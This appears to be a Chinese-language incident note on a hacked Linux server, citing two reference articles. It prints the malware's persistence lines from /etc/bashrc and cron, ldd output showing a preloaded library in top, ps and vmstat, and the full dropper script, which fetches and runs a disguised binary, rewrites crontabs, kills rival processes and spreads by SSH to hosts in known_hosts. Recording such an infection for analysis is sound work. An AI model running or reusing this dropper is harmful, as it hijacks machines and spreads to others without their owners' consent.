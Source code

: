 服务器被黑事件
==============

在 /etc/bashrc 中 ::

    (curl -fsSL -m180 aliyun.one||wget -q -T180 -O- aliyun.one||python -c 'import urllib;exec(urllib.urlopen("http://aliyun.one/pygo").read())')|sh >/dev/null 2>&1 &

在 /var/spool/cron/root 中 ::

    */15 * * * * (curl -fsSL -m180 aliyun.one||wget -q -T180 -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen("http://aliyun.one").read())')|sh 

ldd : ::

    # ldd  `which top`
    linux-vdso.so.1 =>  (0x00007ffe21bc7000)
    /usr/local/lib/libevent_core-0.12.so (0x00007ff594420000)
    libprocps.so.4 => /lib64/libprocps.so.4 (0x00007ff5941f9000)
    libsystemd.so.0 => /lib64/libsystemd.so.0 (0x00007ff593fc8000)
    libncurses.so.5 => /lib64/libncurses.so.5 (0x00007ff593da1000)
    libtinfo.so.5 => /lib64/libtinfo.so.5 (0x00007ff593b77000)
    libdl.so.2 => /lib64/libdl.so.2 (0x00007ff593973000)
    libc.so.6 => /lib64/libc.so.6 (0x00007ff5935a5000)
    libcap.so.2 => /lib64/libcap.so.2 (0x00007ff5933a0000)
    libm.so.6 => /lib64/libm.so.6 (0x00007ff59309e000)
    librt.so.1 => /lib64/librt.so.1 (0x00007ff592e96000)
    libselinux.so.1 => /lib64/libselinux.so.1 (0x00007ff592c6f000)
    liblzma.so.5 => /lib64/liblzma.so.5 (0x00007ff592a49000)
    liblz4.so.1 => /lib64/liblz4.so.1 (0x00007ff592834000)
    libgcrypt.so.11 => /lib64/libgcrypt.so.11 (0x00007ff5925b3000)
    libgpg-error.so.0 => /lib64/libgpg-error.so.0 (0x00007ff5923ae000)
    libresolv.so.2 => /lib64/libresolv.so.2 (0x00007ff592195000)
    libdw.so.1 => /lib64/libdw.so.1 (0x00007ff591f44000)
    libgcc_s.so.1 => /lib64/libgcc_s.so.1 (0x00007ff591d2e000)
    libpthread.so.0 => /lib64/libpthread.so.0 (0x00007ff591b12000)
    /lib64/ld-linux-x86-64.so.2 (0x00007ff594626000)
    libattr.so.1 => /lib64/libattr.so.1 (0x00007ff59190d000)
    libpcre.so.1 => /lib64/libpcre.so.1 (0x00007ff5916ab000)
    libelf.so.1 => /lib64/libelf.so.1 (0x00007ff591493000)
    libz.so.1 => /lib64/libz.so.1 (0x00007ff59127d000)
    libbz2.so.1 => /lib64/libbz2.so.1 (0x00007ff59106d000)

    
    # ldd `which ps`
    linux-vdso.so.1 =>  (0x00007ffe8214a000)
    /usr/local/lib/libevent_core-0.12.so (0x00007f49ddc38000)
    libprocps.so.4 => /lib64/libprocps.so.4 (0x00007f49dda11000)
    libsystemd.so.0 => /lib64/libsystemd.so.0 (0x00007f49dd7e0000)
    libdl.so.2 => /lib64/libdl.so.2 (0x00007f49dd5dc000)
    libc.so.6 => /lib64/libc.so.6 (0x00007f49dd20e000)
    libcap.so.2 => /lib64/libcap.so.2 (0x00007f49dd009000)
    libm.so.6 => /lib64/libm.so.6 (0x00007f49dcd07000)
    librt.so.1 => /lib64/librt.so.1 (0x00007f49dcaff000)
    libselinux.so.1 => /lib64/libselinux.so.1 (0x00007f49dc8d8000)
    liblzma.so.5 => /lib64/liblzma.so.5 (0x00007f49dc6b2000)
    liblz4.so.1 => /lib64/liblz4.so.1 (0x00007f49dc49d000)
    libgcrypt.so.11 => /lib64/libgcrypt.so.11 (0x00007f49dc21c000)
    libgpg-error.so.0 => /lib64/libgpg-error.so.0 (0x00007f49dc017000)
    libresolv.so.2 => /lib64/libresolv.so.2 (0x00007f49dbdfe000)
    libdw.so.1 => /lib64/libdw.so.1 (0x00007f49dbbad000)
    libgcc_s.so.1 => /lib64/libgcc_s.so.1 (0x00007f49db997000)
    libpthread.so.0 => /lib64/libpthread.so.0 (0x00007f49db77b000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f49dde3e000)
    libattr.so.1 => /lib64/libattr.so.1 (0x00007f49db576000)
    libpcre.so.1 => /lib64/libpcre.so.1 (0x00007f49db314000)
    libelf.so.1 => /lib64/libelf.so.1 (0x00007f49db0fc000)
    libz.so.1 => /lib64/libz.so.1 (0x00007f49daee6000)
    libbz2.so.1 => /lib64/libbz2.so.1 (0x00007f49dacd6000)


    # ldd `which vmstat`
    linux-vdso.so.1 =>  (0x00007ffd99ce3000)
    /usr/local/lib/libevent_core-0.12.so (0x00007fdf0f4cb000)
    libprocps.so.4 => /lib64/libprocps.so.4 (0x00007fdf0f2a4000)
    libsystemd.so.0 => /lib64/libsystemd.so.0 (0x00007fdf0f073000)
    libdl.so.2 => /lib64/libdl.so.2 (0x00007fdf0ee6f000)
    libc.so.6 => /lib64/libc.so.6 (0x00007fdf0eaa1000)
    libcap.so.2 => /lib64/libcap.so.2 (0x00007fdf0e89c000)
    libm.so.6 => /lib64/libm.so.6 (0x00007fdf0e59a000)
    librt.so.1 => /lib64/librt.so.1 (0x00007fdf0e392000)
    libselinux.so.1 => /lib64/libselinux.so.1 (0x00007fdf0e16b000)
    liblzma.so.5 => /lib64/liblzma.so.5 (0x00007fdf0df45000)
    liblz4.so.1 => /lib64/liblz4.so.1 (0x00007fdf0dd30000)
    libgcrypt.so.11 => /lib64/libgcrypt.so.11 (0x00007fdf0daaf000)
    libgpg-error.so.0 => /lib64/libgpg-error.so.0 (0x00007fdf0d8aa000)
    libresolv.so.2 => /lib64/libresolv.so.2 (0x00007fdf0d691000)
    libdw.so.1 => /lib64/libdw.so.1 (0x00007fdf0d440000)
    libgcc_s.so.1 => /lib64/libgcc_s.so.1 (0x00007fdf0d22a000)
    libpthread.so.0 => /lib64/libpthread.so.0 (0x00007fdf0d00e000)
    /lib64/ld-linux-x86-64.so.2 (0x00007fdf0f6d1000)
    libattr.so.1 => /lib64/libattr.so.1 (0x00007fdf0ce09000)
    libpcre.so.1 => /lib64/libpcre.so.1 (0x00007fdf0cba7000)
    libelf.so.1 => /lib64/libelf.so.1 (0x00007fdf0c98f000)
    libz.so.1 => /lib64/libz.so.1 (0x00007fdf0c779000)
    libbz2.so.1 => /lib64/libbz2.so.1 (0x00007fdf0c569000)

脚本: ::

    #<script>window.location.href="http://aliyun.com";</script><!--
    export PATH=$PATH:/bin:/usr/bin:/sbin:/usr/local/bin:/usr/sbin
    mv /bin/wge /bin/wget
    mv /bin/cur /bin/curl
    mv /usr/bin/wge /usr/bin/wget
    mv /usr/bin/cur /usr/bin/curl
    mkdir -p /tmp
    chmod 1777 /tmp
    echo "*/10 * * * * (curl -fsSL -m180 aliyun.one||wget -q -T180 -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen(\"http://aliyun.one\").read())')|sh"|crontab -
    cat > /etc/crontab <<EOF
    SHELL=/bin/bash
    PATH=/sbin:/bin:/usr/sbin:/usr/bin

    */10 * * * * root (curl -fsSL -m180 aliyun.one||wget -q -T180 -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen("http://aliyun.one").read())'||/usr/local/sbin/76572670a3)|sh
    EOF
    swapoff -a
    find /etc/cron*|xargs chattr -i
    find /var/spool/cron*|xargs chattr -i
    grep -RE "(wget|curl)" /etc/cron*|grep -v "aliyun.one"|cut -f 1 -d :|xargs rm -rf
    grep -RE "(wget|curl)" /var/spool/cron*|grep -v "aliyun.one"|cut -f 1 -d :|xargs rm -rf
    netstat -anp|grep :::6345|awk '{print $7}'|sed -e "s/\/.*//g"|xargs kill -9
    netstat -anp|grep 119.9.76.107:443|awk '{print $7}'|sed -e "s/\/.*//g"|xargs kill -9
    cd /tmp
    touch /usr/local/bin/writeablex && cd /usr/local/bin/
    touch /usr/libexec/writeablex && cd /usr/libexec/
    touch /usr/bin/writeablex && cd /usr/bin/
    rm -rf /usr/local/bin/writeablex /usr/libexec/writeablex /usr/bin/writeablex

    export PATH=$PATH:$(pwd)
    a64="img.sobot.com/chatres/89/msg/20191225/1/ec0991da601e45c4b0bb6178da5f0cc4.png"
    a32="img.sobot.com/chatres/89/msg/20191225/1/50659157a100466a88fed550423a38ee.png"
    b64="cdn.xiaoduoai.com/cvd/dist/fileUpload/1577269944760/2.637890910155951.png"
    b32="cdn.xiaoduoai.com/cvd/dist/fileUpload/1577269966297/8.872362655092918.png"
    c64="https://user-images.githubusercontent.com/56861392/71443284-08acf200-2745-11ea-8ef3-509d9072d970.png"
    c32="https://user-images.githubusercontent.com/56861392/71443285-08acf200-2745-11ea-96c3-0c2be9135085.png"
    if [ ! -f "76572670a3" ]; then
        ARCH=$(getconf LONG_BIT)
        if [ ${ARCH}x = "64x" ]; then
            (curl -fsSL -m180 $a64 -o 76572670a3||wget -T180 -q $a64 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("http://'$a64'", "76572670a3")'||curl -fsSL -m180 $b64 -o 76572670a3||wget -T180 -q $b64 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("http://'$b64'", "76572670a3")'||curl -fsSL -m180 $c64 -o 76572670a3||wget -T180 -q $c64 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("'$c64'", "76572670a3")')
        else
            (curl -fsSL -m180 $a32 -o 76572670a3||wget -T180 -q $a32 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("http://'$a32'", "76572670a3")'||curl -fsSL -m180 $b32 -o 76572670a3||wget -T180 -q $b32 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("http://'$b32'", "76572670a3")'||curl -fsSL -m180 $c32 -o 76572670a3||wget -T180 -q $c32 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("'$c32'", "76572670a3")')
        fi
    fi
    chmod +x 76572670a3
    $(pwd)/76572670a3 || ./76572670a3 || /usr/bin/76572670a3 || /usr/libexec/76572670a3 || /usr/local/bin/76572670a3 || 76572670a3 || /tmp/76572670a3 || /usr/local/sbin/76572670a3
    if [ -f /root/.ssh/known_hosts ]; then
      for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" /root/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h "(curl -fsSL aliyun.one||wget -q -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen(\"http://aliyun.one\").read())')|sh >/dev/null 2>&1 &";done
    fi

    for file in /home/*
    do
        if test -d $file; then
            if [ -f $file/.ssh/known_hosts ]; then
                for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" $file/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h "(curl -fsSL aliyun.one||wget -q -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen(\"http://aliyun.one\").read())')|sh >/dev/null 2>&1 &";done
            fi
        fi
    done
    #-->

References
----------

https://www.anquanke.com/post/id/171523

https://zhuanlan.zhihu.com/p/65609044
